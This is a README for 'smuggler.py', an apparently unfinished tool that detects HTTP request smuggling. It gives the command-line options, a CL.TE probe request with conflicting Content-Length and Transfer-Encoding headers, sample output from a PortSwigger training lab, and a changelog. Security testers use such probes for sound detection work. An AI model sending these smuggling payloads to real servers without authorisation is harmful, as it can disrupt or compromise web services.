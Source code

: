 
# smuggler.py

### # Summary

This tool is that send request to target server using simple payload for detecting http request smuggling.

But.. It is not finished yet, and is developing.


### # How to use

```
  -h, --help         show this help message and exit
  --url URL          Input url. --url http://test.com
  --agent            Generating random User-Agent. --agent
  --timeout TIMEOUT  Set timeout. Default: 7s. --timeout [time]
```


### # Result

##### # CL.TE timing tech
If CL.TE case, tool sends a payload like below.

```
POST {} HTTP/1.1\r\n
Host: {}\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
```

When server's response is timeout, server is vulnerable to http request smuggling.

Tool will show the result like below.
```
ubuntu:~/environment/git/smuggler.py (master) $ python3 smuggler.py --url https://ac9f1faa1f71d93b807b054000660013.web-security-academy.net/ --agent

                                         _                             
         ___ _ __ ___  _   _  __ _  __ _| | ___ _ __       _ __  _   _ 
        / __| '_ ` _ \| | | |/ _` |/ _` | |/ _ \ '__|     | '_ \| | | |
        \__ \ | | | | | |_| | (_| | (_| | |  __/ |     _  | |_) | |_| |
        |___/_| |_| |_|\__,_|\__, |\__, |_|\___|_|    (_) | .__/ \__, |
                             |___/ |___/                  |_|    |___/ 
                        by universe 

[*] Generating fake user-agent...
[*] Done.
[*] Sending to https://ac9f1faa1f71d93b807b054000660013.web-security-academy.net/
[*] Testing CL.TE...
     └───> HTTP/1.1 500 Internal Server Error
[*] Server using CLTE
>> 
====== payload ======
POST / HTTP/1.1
Host: ac9f1faa1f71d93b807b054000660013.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

0


======================

```

### # Update

 #### - v0.2

Fixed an error when user don't input url including http:// or https://.

Fixed an bug not including fake user agent.

Added function that subdomain is scanned.

Added option for importing list. [(Issue 1)](https://github.com/Lactea98/smuggler.py/issues/1)

### # Reference 
https://portswigger.net/web-security/request-smuggling

https://github.com/gwen001/pentest-tools/blob/master/smuggler.py
